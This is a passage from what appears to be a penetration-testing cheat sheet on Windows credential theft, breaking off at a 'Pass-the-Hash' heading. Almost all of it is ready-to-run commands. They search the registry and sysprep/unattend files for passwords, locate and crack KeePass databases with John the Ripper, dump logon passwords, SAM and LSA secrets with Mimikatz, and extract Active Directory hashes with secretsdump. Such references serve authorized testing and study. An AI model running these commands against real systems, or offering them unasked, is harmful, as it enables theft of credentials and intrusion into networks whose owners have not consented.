 #### **Searching for Passwords in Registry**

```powershell
reg query HKLM /f password /t REG_SZ /s  
reg query HKCU /f password /t REG_SZ /s  
```

#### **Finding Passwords in Config Files**

```bash
dir /b /s unattend.xml  
dir /b /s sysprep.inf  
dir /b /s sysprep.xml  
```

#### **Searching for KeePass (KDBX) Files**

```bash
dir /s /b *.kdbx  
```

#### **Cracking KeePass Passwords**

```bash
keepass2john Database.kdbx > keepasshash  
john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash  
```

* * *

### Dumping Windows Password Hashes

#### **Mimikatz - Extracting Hashes and Credentials**

```powershell
privilege::debug  
sekurlsa::logonpasswords  # Extracts hashes & plaintext passwords  
lsadump::sam  
lsadump::lsa /patch  # Dumps SAM  
```

#### **One-Liner Mimikatz Execution**

```powershell
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"  
```

#### **Dumping Hashes from NTDS.dit (Active Directory Database)**

```bash
secretsdump.py <domain>/<user>:<password>@<IP>  
```

* * *

### Pass-the-Hash (PTH) Attack
